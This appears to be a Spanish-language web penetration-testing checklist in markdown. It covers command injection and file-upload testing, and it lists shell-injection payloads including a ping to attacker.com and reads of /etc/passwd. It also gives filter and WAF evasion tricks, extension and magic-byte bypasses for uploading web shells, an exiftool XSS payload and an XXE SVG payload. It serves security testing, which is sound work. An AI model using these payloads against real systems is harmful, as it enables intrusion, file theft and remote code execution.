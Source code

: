 #### Command Injection

- [ ] **Detección:**
    - [ ] Identificar parámetros que puedan ser usados en comandos del sistema (ej. filenames, hosts para ping, etc.).
    - [ ] Inyectar metacaracteres de shell y comandos simples:
        - [ ] `; ls`, `| id`, `&& dir`, `|| sleep 5`, `$(whoami)`, `` `uname -a` ``.
        - [ ] `& ping -c 3 attacker.com`, `\ncat /etc/passwd`.
    - [ ] Observar la salida, errores, o retardos.
- [ ] **Técnicas de Inyección:**
    - [ ] Usar diferentes metacaracteres (`|`, `||`, `&`, `&&`, `;`, `\n`).
    - [ ] Sustitución de comandos (`` `comando` `` o `$(comando)`).
    - [ ] Redirección de entrada/salida (`<`, `>`).
- [ ] **Bypass de Filtros y WAF:**
    - [ ] **Espacios:** Reemplazar con `$IFS`, `${IFS}`, `<` (si el comando lo permite), `%09` (tab).
    - [ ] **Caracteres de Barra Inclinada (`/`):** Usar variables como `${HOME:0:1}`.
    - [ ] **Comandos Bloqueados:**
        - [ ] Usar alias, variables de entorno.
        - [ ] Encodings (hex, octal: `echo -e '\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`).
        - [ ] Concatenación de strings (`'ca'` `'t'`, `ca""t`).
        - [ ] Globbing/Wildcards (`/???/??t /???/p??s??`, `w?o?m?`).
        - [ ] Sustitución de comandos avanzada.
    - [ ] **Caracteres Bloqueados:** Pruebas de encodings, uso de `eval` con datos codificados si es posible.
- [ ] **Herramientas de Evasión/Ofuscación (si aplica y se conoce el contexto).**
- [ ] **Inyección Ciega de Comandos:** Usar comandos que generen retardos (`sleep`, `ping`) o exfiltren datos por canales OOB (DNS, HTTP).

### File Upload

- [ ] **Identificar Funcionalidad de Carga:**
    - [ ] ¿Qué tipos de archivo se permiten (extensiones, Content-Type)?
    - [ ] ¿Hay restricciones de tamaño?
    - [ ] ¿Dónde se almacenan los archivos? ¿Accesibles vía web?
- [ ] **Bypass de Validaciones:**
    - [ ] **Validación del Lado del Cliente:** Interceptar con Burp y modificar.
    - [ ] **Validación de Extensión (Blacklist/Whitelist):**
        - [ ] Dobles extensiones: `shell.php.jpg`, `shell.jpg.php`.
        - [ ] Extensiones alternativas: `.phtml`, `.php3`, `.php4`, `.php5`, `.phar` (para PHP).
        - [ ] Mayúsculas/minúsculas: `shell.PhP`.
        - [ ] Caracteres nulos: `shell.php%00.jpg`.
        - [ ] Espacios o puntos al final: `shell.php.`, `shell.php%20`.
    - [ ] **Validación de `Content-Type`:** Modificar la cabecera `Content-Type` en Burp.
    - [ ] **Validación de Magic Bytes/File Signature:** Modificar los primeros bytes del archivo para que coincidan con un tipo permitido, pero con contenido malicioso.
- [ ] **Explotación:**
    - [ ] **Web Shells:** Subir archivos `.php`, `.asp`, `.aspx`, `.jsp`, etc., para RCE.
    - [ ] **XSS vía Archivos Subidos:**
        - [ ] Subir archivos `.html`, `.svg` con scripts.
        - [ ] Inyectar XSS en metadatos de imágenes (`exiftool -Comment='"><img src=1 onerror=alert(document.domain)>' imagen.jpg`) y asegurarse de que se sirva con `Content-Type: text/html` o que el navegador lo interprete como HTML.
    - [ ] **XXE vía Archivos Subidos:**
        - [ ] Subir archivos `.xml`, `.svg`, `.docx`, `.pdf` (si se procesan en el servidor) con payloads XXE.
        - [ ] Ejemplo SVG: `<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><svg>&xxe;</svg>`
        - [ ] Leer código fuente: `php://filter/convert.base64-encode/resource=index.php`.
    - [ ] **Ataques de Denegación de Servicio (DoS):**
        - [ ] Subir archivos muy grandes (Zip Bombs, Billion Laughs Attack para XML).
    - [ ] **Sobrescribir Archivos Existentes:** ¿Se puede subir un archivo con el mismo nombre que uno crítico (ej. `index.php`)?
    - [ ] **Path Traversal en Nombres de Archivo:** ¿Se puede usar `../../` en el nombre del archivo para escribir fuera del directorio de subida?
- [ ] **Inyección de Caracteres Especiales en Nombres de Archivo.**